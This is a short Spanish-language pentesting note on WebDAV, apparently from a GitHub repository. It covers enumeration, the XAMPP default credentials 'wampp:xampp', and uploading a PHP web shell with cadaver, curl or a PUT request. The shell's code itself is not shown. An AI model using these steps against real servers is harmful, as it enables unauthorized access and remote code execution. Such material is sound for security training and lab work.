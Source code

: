 # WebDav Pentesting

## QUE ES WEBDAV

WebDav significa **_creación y control de versiones distribuidas en la web,_** que es una extensión del protocolo de transferencia de hipertexto que permite a los clientes realizar operaciones remotas de creación de contenido web. Brinda la capacidad de crear un archivo o una carpeta, editar un archivo en su lugar, copiar, mover o eliminar un archivo en un servidor web remoto. Utiliza el puerto 80 para acceso sin cifrar y el puerto 443 para acceso seguro. Permite a los usuarios acceder a archivos en la nube o archivos en un servidor separado en tiempo real, sin ningún problema de descarga, almacenamiento en caché, edición y carga.

en resumen: mas o menos como un FTP.

## ENUMERACION

Por lo general en el puerto 80 y 443 puede existir una carpeta llamada **webdav** (muy descriptiva).

### CREDENCIALES POR DEFECTO

-   El complemento WebDAV para el servidor Apache incluido con XAMPP versión 1.7.3 o inferior está habilitado de forma predeterminada.
-   las credenciales por defecto son `wampp:xampp`

### ANALIZANDO LA PETICION

el header `Authorization` contiene el usuario y contraseña (user:pass) en base64.

![https://raw.githubusercontent.com/kriko69/Pentesting/master/hacking_web/WebDav/1.png](https://raw.githubusercontent.com/kriko69/Pentesting/master/hacking_web/WebDav/1.png)

puede validar si los metodos PUT o MOVE estan habilitados para la carga remota de archivos:

![https://raw.githubusercontent.com/kriko69/Pentesting/master/hacking_web/WebDav/2.png](https://raw.githubusercontent.com/kriko69/Pentesting/master/hacking_web/WebDav/2.png)

## EXPLOTACION

### CADAVER

Es como una consola FTP para webdav: (pedira credenciales si fuera necesario `wampp:xampp`)

```bash
cadaver http://10.10.10.10/webdav

put shell.php
```

ahora si buscamos el carchivo cargado podemos invocar una shell

### CURL

Si el Verbo MOVE esta habilitado:

```bash
curl -u wampp:xampp -T shell.php http://10.10.10.10/webdav/
```

### VERBO PUT

interceptando la peticion con burp y si admite el metodo PUT puede cargar un archivo:

![https://raw.githubusercontent.com/kriko69/Pentesting/master/hacking_web/WebDav/3.png](https://raw.githubusercontent.com/kriko69/Pentesting/master/hacking_web/WebDav/3.png)

## FUENTE

- [http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html](http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html)
- [https://shahjerry33.medium.com/rce-via-webdav-power-of-put-7e1c06c71e60](https://shahjerry33.medium.com/rce-via-webdav-power-of-put-7e1c06c71e60)
- [https://medium.com/@agrigoletto/tryhackme-dav-writeup-1df60813207c](https://medium.com/@agrigoletto/tryhackme-dav-writeup-1df60813207c)
- [https://book.hacktricks.xyz/pentesting/pentesting-web/put-method-webdav](https://book.hacktricks.xyz/pentesting/pentesting-web/put-method-webdav)

